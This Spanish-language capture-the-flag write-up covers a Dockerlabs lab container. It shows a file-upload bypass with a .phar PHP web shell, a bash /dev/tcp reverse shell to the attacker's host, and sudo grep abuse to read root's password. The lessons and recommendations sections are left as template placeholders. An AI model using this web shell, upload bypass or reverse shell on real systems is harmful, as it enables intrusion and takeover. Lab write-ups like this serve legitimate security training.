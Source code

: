 
# Writeup Template: Maquina `[ Dockerlabs ]`

- Tags: #Dockerlabs
- Dificultad: `[ Facil ]`
- Plataforma: `[ Dockerlabs ]`

---
## Enlace al laboratorio
[Maquina Dockerlabs](https://mega.nz/file/EPFy0CzA#DIz-H4Fa172X5m0t01FtdEXJO7pMIzDu4nTBdAklzFY) Laboratorio para aprender sobre seguridad en contenedores Docker.

## Configuración del Entorno
```bash
# Comandos para desplegar el laboratorio
7z x dockerlabs.zip
sudo bash auto_deploy.sh dockerlabs.tar
```

---

## Fase de Reconocimiento

### Direccion IP del Target
```bash
172.17.0.2
```
### Identificación del Target
Lanzamos una traza **ICMP** para determinar si tenemos conectividad con el target
```bash
ping -c 1 172.17.0.2 
```

### Determinacion del SO
Usamos nuestra herramienta en python para determinar ante que tipo de sistema opertivo nos estamos enfrentando
```bash
wichSystem.py 172.17.0.2
# TTL: [ 64 ] -> [ Linux ]
```

---
## Enumeracion de Puertos y Servicios
### Descubrimiento de Puertos
```bash
# Escaneo rápido con herramienta personalizada en python
escanerTCP.py -t 172.17.0.2 -p 1-65000

# Escaneo con Nmap
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo
```

### Análisis de Servicios
Realizamos un escaneo exhaustivo para determinar los servicios y las versiones que corren detreas de estos puertos
```bash
nmap -sC -sV -p80 172.17.0.2 -oN targeted
```

**Servicios identificados:**
```bash
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
```
---

## Enumeracion de [Servicio Web Principal]
Direccion URL del servicio:
```bash
http://172.17.0.2/
```
### Tecnologías Detectadas
Realizamos deteccion de las tecnologias empleadas por la web
```bash
whatweb http://172.17.0.2
```

Lanzamos un script de **Nmap** para reconocimiento de rutas
```bash
nmap --script http-enum -p 80 172.17.0.2
```

Reporte:
```bash
/uploads/: Potentially interesting directory w/ listing on 'apache/2.4.58 (ubuntu)'
```
### Descubrimiento de Rutas
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
```

**Hallazgos Relevantes:**
```bash
/uploads/             (Status: 200) [Size: 741]
```

### Descubrimiento de Archivos
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,php.back,backup,txt,sh,html,js
```

- **Hallazgos**:
```bash
/index.php            (Status: 200) [Size: 8235]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/scripts.js           (Status: 200) [Size: 919]
/upload.php           (Status: 200) [Size: 0]
/machine.php          (Status: 200) [Size: 1361]
```

Tenemos un ruta donde podemos cargar archivos, De la cual nos aprovecharemos si no valida correctamente el tipo de archivo:
```bash
http://172.17.0.2/machine.php
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Crearemos un archivo malicioso bajo el nombre: **( cmd.php )** que nos permitira cargar una llamada a nivel de sistema para ejecutar un comando. y su contenido es:
```php
<?php
  system($_GET["cmd"]);
?>
```

**Nota** De primera no permite archivos que no sean **( .zip )** asi que probaremos todo tipo de extensiones:
[PHP Extensiones](https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/file-upload/alt-extensions-php.txt) -> Usaremos este recurso
Despues de **interceptar** la peticion y mandarla al mofo **repeater** para pobar todo tipo de extensiones tenemos una valida que nos permitio cargar nuestro archivo php malicioso:
```bash
Content-Disposition: form-data; name="file"; filename="cmd.phar"
Content-Type: application/x-php

<?php
  system($_GET["cmd"]);
?>
```
### Ejecucion del Ataque
Ahora tocar revisar el la siguiente ruta si esta cargado correctamente nuestro archivo:
```bash
http://172.17.0.2/uploads/
```

Revisando se ha cargado con exito el archivo asi que procedemos a ejecutarlo para ver si podemos ejecutar comandos:
```bash
# Comandos para explotación
http://172.17.0.2/uploads/cmd.phar?cmd=whoami
```

### Intrusion
Una ves logrado ejecutar comandos en la maquina victima, Nos pondremos en modo escuchar para mandarnos una **revershell** en nuestra maquina de atacante:
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
172.17.0.2/uploads/cmd.phar?cmd=bash -c 'exec bash -i %26>/dev/tcp/172.17.0.1/443 <%261'
```

---
## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
sudo -l

User www-data may run the following commands on 147e7d07823f:
    (root) NOPASSWD: /usr/bin/cut
    (root) NOPASSWD: /usr/bin/grep
```
### Explotacion de Privilegios
revisando archivos en este directorio tenemos:
```bash
/opt/nota.txt
```

El cual nos aprovecharemos de del binario para poder leer su contenido:
###### Usuario `[ www-data ]`:
```bash
sudo -u root /usr/bin/grep '' /root/clave.txt
dockerlabsmolamogollon123 # Password de root
```

Nos loguemos como root
```bash
# Comando para escalar al usuario: ( root )
su root # ( dockerlabsmolamogollon123 )
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@147e7d07823f:~# whoami
root
```

---

## Lecciones Aprendidas
1. [Lección 1]
2. [Lección 2]
3. [Lección 3]

## Recomendaciones de Seguridad
- [Recomendación 1]
- [Recomendación 2]
- [Recomendación 3]